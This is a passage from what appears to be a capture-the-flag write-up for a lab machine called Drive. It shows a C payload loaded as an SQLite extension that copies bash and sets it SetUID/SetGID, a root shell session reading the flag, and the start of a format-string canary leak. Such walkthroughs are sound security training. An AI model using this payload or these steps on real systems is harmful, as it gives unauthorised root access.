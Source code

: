     doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option:
    

It ran `id`!

#### Shell

I’ll update my `poc.c` to make a copy of `bash` and set it as SetUID/SedGID (I
like this better than just changing `/bin/bash` as to not accidentally spoil
for other players).

    
    
    #include <stdlib.h>
    void sqlite3_extension_init() {
        system("/bin/cp /bin/bash /tmp/0xdf");
        system("/bin/chmod 6777 /tmp/0xdf");
    }
    

I’ll compile that over `p.so` and run the exploit again. Now there’s a
SetUID/SetGID binary at `/tmp/0xdf`:

    
    
    tom@drive:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1183448 Feb 14 22:25 /tmp/0xdf
    

Running with `-p` (to not drop privs) gives a root shell and the flag:

    
    
    tom@drive:/dev/shm$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1003(tom) gid=1003(tom) euid=0(root) egid=0(root) groups=0(root),1003(tom)
    0xdf-5.0# cat /root/root.txt
    641e7a5b************************
    

### Via Format String / BOF

There’s nothing here I haven’t shown many times before, but I’ll give a quick
walkthrough as it is the intended way.

#### Leak Canary

In `main`, there’s a format string vuln, where the user input name is printed
as the first argument to `printf`:

    
    
      printf("Enter password for ");
      printf(entered_username,0x10);
    